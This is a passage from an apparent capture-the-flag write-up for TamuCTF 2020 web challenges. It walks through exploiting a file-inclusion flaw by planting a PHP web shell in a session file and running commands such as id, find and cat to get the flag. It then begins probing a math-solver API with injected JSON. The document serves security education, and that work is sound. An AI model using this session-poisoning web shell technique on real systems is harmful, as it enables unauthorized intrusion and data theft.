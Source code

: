This means that we have arbitrary reads. Let's check if our session files are stored in _/tmp/sess_SESSIONID_.
By trying __http://172.17.0.2/index.php?file=../../../../../tmp/sess_imec37rtfcsn9v2p7dd8mqful8__ we get our serialized session data.

![sessdata](/assets/img/TamuCTF_2020/filestorage_5.png)

Observe that our name is in bold, which means no sanitization is applied when registering.
We can try to use some php code as our name:

```php
<?php system($_GET["cmd"]); ?>
```

Now if we navigate to __/index.php?file=../../../../../tmp/sess_lavn0ra1jqa7sh2nien1fehhh1&cmd=id__ we get our **id** command executed.

![cmdid](/assets/img/TamuCTF_2020/filestorage_6.png)

Perfect, let's read the flag!

1. Find the flag location:

```bash
/index.php?file=../../../../../tmp/sess_lavn0ra1jqa7sh2nien1fehhh1&cmd=find / -name '*flag*' 2>/dev/null
```

2. Read the flag at /flag_is_here/flag.txt

```bash
/index.php?file=../../../../../../../../tmp/sess_lavn0ra1jqa7sh2nien1fehhh1&cmd=cat ../../../../../flag_is_here/flag.txt
```

🏁 __gigem{535510n_f1l3_p0150n1n6}__{:.spoiler}

---

## mentalmath

> My first web app, check it out!

Navigating to the website we find ourselves in front of a sort of math solver.
We have some sort of api behind  the static webpage. The api points to /api/new_problem and accepts json payloads like :

```json
{
    "problem" : "1+1",
    "answer" : "2"
}
```

Playing with the payload we can observe that if we pass

```json
{
    "problem" : "1+1 # Random alphanumeric string",
    "answer" : "2"
}
```
